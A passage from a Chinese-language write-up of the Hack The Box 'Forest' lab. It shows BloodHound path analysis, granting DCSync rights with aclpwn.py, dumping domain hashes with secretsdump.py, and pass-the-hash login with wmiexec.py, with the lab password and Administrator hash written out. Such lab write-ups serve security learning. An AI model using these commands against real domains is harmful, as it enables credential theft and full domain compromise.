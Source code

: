 ![](https://p3.ssl.qhimg.com/t01c0103d4cb9d0eb83.png)

导入分析文件`20200402003811_BloodHound.zip`，在搜索栏中搜索``svc-alfresco@htb.local`，添加`target：Administrator@htb.local`，可以看到分析路径图：

![](https://p5.ssl.qhimg.com/t014efdf9a589c83934.png)

从图中可以发现，用户`svc-alfresco`是`SERVICE ACCOUNT@HTB.LOCAL`组的成员，该组是另一个组`PRIVILEGED ACCOUNT@HTB.LOCAL`的成员，进而又是`ACCOUNT OPREATION@HTB.LOCAL`组的成员，进而又是`EXCHANGE WINDOWS PERMISSIONS@HTB.LOACL`组的成员，最终连接到域`HTB.LOCAL`，并且还拥有`WriteDACL`权限。这一系列关键信息告诉我，可以为用户`svc-alfresco`授予`DCSync`特权，并展开`DCSync攻击`。

这里使用了`aclpwn.py`工具进行自动化的利用，对该工具不了解的小伙伴可以参见它的手册：https://github.com/fox-it/aclpwn.py/wiki/Quickstart ：

```shell
~$ ./aclpwn.py --from svc-alfresco@htb.local --domain htb.local --server 10.10.10.161 --user svc-alfresco --source-password 's3rvice'
```

![](https://p2.ssl.qhimg.com/t012b0f00897f4a809c.png)

接着`secretsdump.py`获取域中所有的用户hash，成功收获`Administrator`的hash值：

```shell
~$ ./secretsdump.py -just-dc-ntlm 'svc-alfresco:s3rvice@10.10.10.161'   
```

![](https://p2.ssl.qhimg.com/t0104fe28891db822c0.png)

利用Impacket工具中`wmiexec.py`脚本，使用该hash登录Administrator用户，成功获得超级权限：

```shell
~$ python ./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![](https://p3.ssl.qhimg.com/t01b74cf7cf4d6a0dfd.png)

进入超级用户桌面，成功拿到`root flag`:

![](https://p4.ssl.qhimg.com/t0117e15cb637b6e633.png)

## 0x05 总结

域渗透还需要进一步学习和提高，这次针对Forest靶机的渗透，弥补了很多知识空白，过程并不像文章整理的那样流畅，是一个自认为挺艰难的的过程。

最后，对Forest靶机的渗透测试过程进行一个简单的总结：

- **信息收集：**查看端口、服务状态，获取到域内关键信息

- **AS-REP Roast攻击 + hash 爆破：**获取低级用户的密码，拿到user flag

- **利用BloodHound展开域渗透分析**

- **利用ACLPWN工具展开DCSync攻击：**提权，获得超级用户的hash，拿到root flag

